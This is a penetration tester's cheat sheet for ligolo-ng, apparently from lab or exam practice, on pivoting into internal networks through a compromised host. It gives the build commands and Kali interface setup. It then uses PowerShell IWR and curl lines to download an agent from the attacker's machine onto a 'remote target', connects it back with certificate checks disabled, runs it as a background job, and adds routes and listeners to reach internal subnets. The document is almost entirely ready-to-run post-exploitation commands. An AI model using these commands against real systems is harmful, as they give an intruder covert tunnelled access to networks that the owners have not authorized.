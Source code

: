 git clone https://github.com/nicocha30/ligolo-ng.git     
  
# Compiling Agents (If from source)  
  
## Linux Agents/Proxy  
```
go build -o agent cmd/agent/main.go  
go build -o proxy cmd/proxy/main.go  
```
  
## Windows agents  
```
GOOS=windows go build -o agent.exe cmd/agent/main.go  
```
 
# Add interface to kali and turn it on  
```
sudo ip tuntap add user kali mode tun ligolo  
sudo ip link set ligolo up  
```
  
# Start ligolo locally  
```
./proxy -selfcert  
```
  
# Put up agent on remote target  
```powershell
IWR http://192.168.45.193/ligolo-ng/agent.exe -UseBasicParsing -Outfile agent.exe 
./agent.exe -connect 192.168.45.193:11601 -ignore-cert
```


```bash
curl http://192.168.45.249/ligolo-ng/agent > /tmp/agent 
./agent -connect 192.168.45.249:11601 -ignore-cert  
```
  
# Run as a another job  
```powershell
start-job -scriptblock {C:\windows\temp\agent.exe -connect 192.168.45.215:11601 -ignore-cert}  
```
  
# Add route locally for to access new networks   
```bash
sudo ip route add 172.16.6.0/24 dev ligolo  
```
# "Magic" IP for accessing an agents localhost  
```
sudo ip route add 240.0.0.1/32 dev ligolo
```
# Start tunnel (in ligolo prompts)  
```bash
session  
(select session)  
start  
```
  
# Tear down ligolo interface  
```bash
sudo ip link set ligolo down  
sudo ip link del ligolo  
```
# Add listeners to agent  
```bash
listener_add --addr 0.0.0.0:8080 --to 192.168.45.180:80  
listener_add --addr 0.0.0.0:50000 --to 10.10.17.152:50000
```